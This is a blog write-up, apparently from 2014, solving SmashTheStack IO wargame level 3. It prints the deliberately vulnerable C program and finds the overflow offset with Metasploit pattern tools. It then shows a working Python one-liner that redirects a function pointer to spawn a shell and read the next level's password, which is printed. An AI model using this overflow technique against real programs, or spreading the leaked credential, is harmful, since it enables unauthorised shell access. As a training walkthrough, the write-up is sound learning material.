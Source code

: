 ```yaml
---
layout: post
title: "SmashTheStack IO Level 3"
date: 2014-07-07 21:37:07 +0300
comments: true
categories: [writeups, wargames]
keywords: smash the stack, wargames, smashthestack io, smashthestack io level 3, smashthestack
description: SmashTheStack IO Level 3
---
```


This is the source code for level03.c:
<!-- more -->

``` c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```

#### Function overview


**memcpy**

_void *memcpy(void *dest, const void *src, size_t n);_

Copies  *n* bytes from memory area *src* to memory area *dest*. The memory areas must not overlap.

The function does not check for any terminating null character in *src*.

Returns a pointer to *dest*.



**memset**

_void *memset(void *buf, int value, size_t count);_

*buf* = Pointer to the block of memory to fill.

*value* = Value to be set. The value is passed as an int, but the function fills the block of memory using the unsigned char conversion of this value.

*count* = Number of bytes to be set to the value.

Sets the first *count* bytes of the block of memory pointed by *buf* to the specified *value*

Returns a pointer to the memory area *buf*

The most common use of *memset()* is to initialize a region of memory to some known value.


#### Program description

Running the program we see this:

``` plain
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

So we know the bad function address is at 0x80484a4 and the good function address is at 0x8048474. A function pointer is set to point to the address of the bad function. The program checks for an argument that is at least 4 in length. Then memset sets all except the last 4 bytes of the buffer to 0. There is a buffer overflow in how the program copies the argument to the buffer, without checking for boundaries. This will be key in exploiting the binary.

I proceeded through feeding a string to the program that I created with <code>pattern_create.rb</code>. Then I ran the program with GDB:

``` plain
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

So EIP points to some junk that I provided with the string. Let's check the offset:

``` plain
./pattern_offset.rb 0x63413563
[*] Exact match at offset 76
```

Excellent! Since we already have the address we need for the good function that will spawn us a shell, the next step is simple:

``` plain
level3@io:/levels$ ./level03 $(python -c 'print "A" * 76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.2$ whoami
level4
sh-4.2$ cat /home/level4/.pass
9C4Jxjc3O3IjB7nXej
```

We hijacked the execution flow and made EIP point to the address of the function we needed.

> The surest protection against temptation is cowardice. 

> -- Mark Twain

